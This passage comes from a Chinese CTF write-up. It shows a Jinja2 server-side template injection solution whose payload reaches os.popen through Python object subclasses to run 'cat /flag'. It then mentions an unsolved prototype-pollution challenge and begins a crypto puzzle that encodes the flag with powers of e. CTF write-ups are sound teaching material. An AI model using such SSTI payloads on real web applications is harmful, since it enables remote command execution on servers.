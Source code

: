 先获取object基本类的子类

```bash
{{''.__class__.__mro__[1].__subclasses__()}}
```

找到可以利用的os类，通常可以找到`<class'os._wrap_close'>`

```bash
{{''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}
```

![](https://i.loli.net/2021/09/24/GosJh6QWPbeVkRf.png)







### <font color='red'>(10)fake game</font>

> 未做出

题目环境还未恢复，知识点是`原型链污染`



## 二、Crypto

(注释都是自己加的)

### (1)beginOfCrypto

原题：

```python
import math
flag = xxx
# 将flag每个字符的ascii码值存入列表
data = list(map(ord, flag))
cip = []
for i in range(len(data)):
    cip.append(math.e ** data[i])
print(cip)
'''
[2.178203880729008e+47, 1.6094870669615087e+48, 7.307059979368028e+43, 9.889030319346894e+42, 2.3886906014249767e+50, 1.9862648361376436e+44,
 2.6195173187490456e+53, 9.889030319346894e+42, 7.016735912097614e+20, 2.178203880729008e+47, 7.307059979368028e+43, 1.811239082889014e+41,
 1.6094870669615087e+48, 5.920972027664636e+47, 214643579785915.7, 3.6379709476087856e+42, 7.307059979368028e+43, 5.399227610580139e+44,
 3.989519570547194e+45, 5.920972027664636e+47, 1.811239082889014e+41, 3.5451311827611436e+52, 1.6094870669615087e+48, 6.493134255664421e+50,
 3.23274119108484e+49, 1.811239082889014e+41, 1.2523631708422093e+29, 3.23274119108484e+49, 3.5451311827611436e+52, 4.375039447261315e+48,
 2.3886906014249767e+50, 7.016735912097614e+20, 1.811239082889014e+41, 9.889030319346894e+42, 3.831008000716566e+22, 3.23274119108484e+49,
 1.4093490824269349e+22, 1.4093490824269349e+22, 3.23274119108484e+49, 1.9355760420357097e+54]
'''
```
